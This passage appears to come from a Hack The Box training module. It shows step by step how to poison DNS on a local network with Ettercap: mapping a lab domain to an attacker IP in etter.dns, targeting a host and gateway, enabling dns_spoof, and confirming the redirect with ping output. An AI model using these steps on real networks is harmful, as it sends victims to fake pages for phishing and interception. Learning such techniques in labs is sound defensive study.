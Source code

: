 ### DNS Spoofing

From a local network perspective, an attacker can also perform DNS Cache Poisoning using MITM tools like [Ettercap](https://www.ettercap-project.org/) or [Bettercap](https://www.bettercap.org/).

To exploit the DNS cache poisoning via `Ettercap`, we should first edit the `/etc/ettercap/etter.dns` file to map the target domain name (e.g., `inlanefreight.com`) that they want to spoof and the attacker's IP address (e.g., `192.168.225.110`) that they want to redirect a user to:

```shell
cat /etc/ettercap/etter.dns

inlanefreight.com      A   192.168.225.110
*.inlanefreight.com    A   192.168.225.110
```

Next, start the `Ettercap` tool and scan for live hosts within the network by navigating to `Hosts > Scan for Hosts`. Once completed, add the target IP address (e.g., `192.168.152.129`) to Target1 and add a default gateway IP (e.g., `192.168.152.2`) to Target2.

![](https://academy.hackthebox.com/storage/modules/116/target.png)

Activate `dns_spoof` attack by navigating to `Plugins > Manage Plugins`. This sends the target machine with fake DNS responses that will resolve `inlanefreight.com` to IP address `192.168.225.110`:

![](https://academy.hackthebox.com/storage/modules/116/etter_plug.png)

After a successful DNS spoof attack, if a victim user coming from the target machine `192.168.152.129` visits the `inlanefreight.com` domain on a web browser, they will be redirected to a `Fake page` that is hosted on IP address `192.168.225.110`:

![](https://academy.hackthebox.com/storage/modules/116/etter_site.png)

In addition, a ping coming from the target IP address `192.168.152.129` to `inlanefreight.com` should be resolved to `192.168.225.110` as well:

```shell
C:\>ping inlanefreight.com

Pinging inlanefreight.com [192.168.225.110] with 32 bytes of data:
Reply from 192.168.225.110: bytes=32 time<1ms TTL=64
Reply from 192.168.225.110: bytes=32 time<1ms TTL=64
Reply from 192.168.225.110: bytes=32 time<1ms TTL=64
Reply from 192.168.225.110: bytes=32 time<1ms TTL=64

Ping statistics for 192.168.225.110:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

## Email Services

Host - MX Records
```shell
host -t MX hackthebox.eu
```
